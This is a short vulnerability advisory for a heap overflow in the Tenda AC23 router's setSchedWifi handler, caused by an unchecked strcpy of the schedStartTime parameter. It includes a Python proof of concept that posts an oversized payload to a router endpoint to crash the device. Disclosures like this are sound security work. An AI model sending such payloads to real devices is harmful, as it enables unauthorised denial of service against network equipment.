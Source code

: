 Shenzhen Jixiang Tengda Technology Co., Ltd. - Tenda AC23 setSchedWifi Heap Overflow VulnerabilityIn the function setSchedWifi, the program passes the content fetched from the parameter "schedStartTime" to the heap block ptr created by the program, and then directly copies the value of schedStartTime to the heap ptr using the strcpy function. There is no size check, which results in a heap overflow vulnerability. An attacker can easily execute a denial of service attack using carefully crafted overflow data.

<img width="415" height="320" alt="image" src="https://github.com/user-attachments/assets/abdc36c6-571a-4fbc-86ae-581d973aa1b7" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/openSchedWifi"

cookie = {"Cookie":"password=12345"}
data = {"schedStartTime": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
